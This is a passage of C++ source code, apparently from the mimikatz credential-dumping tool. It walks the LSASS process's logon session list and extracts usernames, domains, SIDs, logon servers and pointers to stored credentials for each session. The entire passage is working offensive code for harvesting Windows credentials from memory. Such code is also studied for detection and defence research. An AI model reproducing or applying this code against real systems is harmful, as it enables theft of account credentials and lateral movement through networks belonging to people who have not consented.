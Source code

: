 ```c++
        if((cLsass.osContext.BuildNumber &gt;= KULL_M_WIN_MIN_BUILD_7) &amp;&amp; (cLsass.osContext.BuildNumber &lt; KULL_M_WIN_MIN_BUILD_BLUE) &amp;&amp; (kuhl_m_sekurlsa_msv_package.Module.Informations.TimeDateStamp &gt; 0x53480000))
            helper++; // yeah, really, I do that =)

        securityStruct.hMemory = cLsass.hLsassMem;
        if(securityStruct.address = LogonSessionListCount)
            kull_m_memory_copy(&amp;data, &amp;securityStruct, sizeof(ULONG));

        for(i = 0; i &lt; nbListes; i++)
        {
            securityStruct.address = &amp;LogonSessionList[i];
            data.address = &amp;pStruct;
            data.hMemory = &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE;
            if(aBuffer.address = LocalAlloc(LPTR, helper-&gt;tailleStruct))
            {
                if(kull_m_memory_copy(&amp;data, &amp;securityStruct, sizeof(PVOID)))
                {
                    data.address = pStruct;
                    data.hMemory = securityStruct.hMemory;

                    while((data.address != securityStruct.address) &amp;&amp; retCallback)
                    {
                        if(kull_m_memory_copy(&amp;aBuffer, &amp;data, helper-&gt;tailleStruct))
                        {
                            sessionData.LogonId     = (PLUID)           ((PBYTE) aBuffer.address + helper-&gt;offsetToLuid);
                            sessionData.LogonType   = *((PULONG)        ((PBYTE) aBuffer.address + helper-&gt;offsetToLogonType));
                            sessionData.Session     = *((PULONG)        ((PBYTE) aBuffer.address + helper-&gt;offsetToSession));
                            sessionData.UserName    = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper-&gt;offsetToUsername);
                            sessionData.LogonDomain = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper-&gt;offsetToDomain);
                            sessionData.pCredentials= *(PVOID *)        ((PBYTE) aBuffer.address + helper-&gt;offsetToCredentials);
                            sessionData.pSid        = *(PSID *)         ((PBYTE) aBuffer.address + helper-&gt;offsetToPSid);
                            sessionData.pCredentialManager = *(PVOID *) ((PBYTE) aBuffer.address + helper-&gt;offsetToCredentialManager);
                            sessionData.LogonTime   = *((PFILETIME)     ((PBYTE) aBuffer.address + helper-&gt;offsetToLogonTime));
                            sessionData.LogonServer = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper-&gt;offsetToLogonServer);

                            kull_m_process_getUnicodeString(sessionData.UserName, cLsass.hLsassMem);
                            kull_m_process_getUnicodeString(sessionData.LogonDomain, cLsass.hLsassMem);
                            kull_m_process_getUnicodeString(sessionData.LogonServer, cLsass.hLsassMem);
                            kull_m_process_getSid(&amp;sessionData.pSid, cLsass.hLsassMem);

                            retCallback = callback(&amp;sessionData, pOptionalData);

                            if(sessionData.UserName-&gt;Buffer)
                                LocalFree(sessionData.UserName-&gt;Buffer);
                            if(sessionData.LogonDomain-&gt;Buffer)
                                LocalFree(sessionData.LogonDomain-&gt;Buffer);
                            if(sessionData.LogonServer-&gt;Buffer)
                                LocalFree(sessionData.LogonServer-&gt;Buffer);
                            if(sessionData.pSid)
```